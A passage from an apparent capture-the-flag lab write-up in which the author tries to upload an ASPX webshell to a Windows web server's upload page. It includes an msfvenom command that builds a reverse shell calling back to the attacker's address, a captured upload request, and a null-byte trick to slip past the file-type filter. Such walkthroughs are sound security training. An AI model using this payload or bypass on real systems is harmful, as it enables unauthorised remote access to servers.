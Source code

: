 Very nice! we found a http page which could be used to upload files. Could we upload aspx webshell, let's use msfvenom to create a aspx shell.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=1234 -a x86 -f aspx > shell.aspx
```

And upload it but failed with " Invalid File. Please try again "

![[Bounty-05.png]]

###  Bypassing Upload Extension Filter
Ok, maybe it will have a front-end or back-end check on file type. let's use burpsuite to intercept upload http post:

```txt
POST /transfer.aspx HTTP/1.1
Host: 10.10.10.93
Content-Length: 3371
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.10.93
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryRPtl2S5AMUjATFWl
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.10.93/transfer.aspx
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

------WebKitFormBoundaryRPtl2S5AMUjATFWl
Content-Disposition: form-data; name="__VIEWSTATE"

/wEPDwUKMTI3ODM5MzQ0Mg9kFgICAw8WAh4HZW5jdHlwZQUTbXVsdGlwYXJ0L2Zvcm0tZGF0YWRkgJuuOkJqw6sW86M08rnOyin0kBI=
------WebKitFormBoundaryRPtl2S5AMUjATFWl
Content-Disposition: form-data; name="__EVENTVALIDATION"

/wEWAgLp1c3HCALt3oXMA7tRTmlKqpsdFe08kAk7z21KGdQV
------WebKitFormBoundaryRPtl2S5AMUjATFWl
Content-Disposition: form-data; name="FileUpload1"; filename="shell.aspx"
Content-Type: application/octet-stream
```

we alter the aspx file to as jpg file, I can bypass the filter by adding a null byte after our aspx so that the app thinks it’s a jpg, but then saves it as an aspx:

![[Bounty-06.png]]

![[Bounty-07.png]]
